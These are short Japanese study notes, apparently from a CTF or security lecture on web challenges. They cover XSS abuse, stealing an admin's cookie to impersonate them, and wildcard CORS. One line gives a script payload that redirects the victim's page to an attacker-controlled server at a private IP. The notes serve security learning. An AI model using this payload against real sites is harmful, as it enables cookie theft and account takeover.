 # Web問
- ブラックボックスになりがち
- 仕組みが見えない中で手探りする
- 知識と経験が必要
- 悪用の話→手元でのXSSがどうなるのか
- jsを使った悪用方法
- adminのを、攻撃者のサーバーに投げる
- cookieを奪った後どうするか→なりすましログインできる
- `<script>document.location='http://10.2.3.2:8000/11691so1'</script>`これを送ると、ページを飛ばせる
- どのサイトからも自分のリソースを見ていいよ→`*`オリジン
- masatokinugawaさんはXSSの神
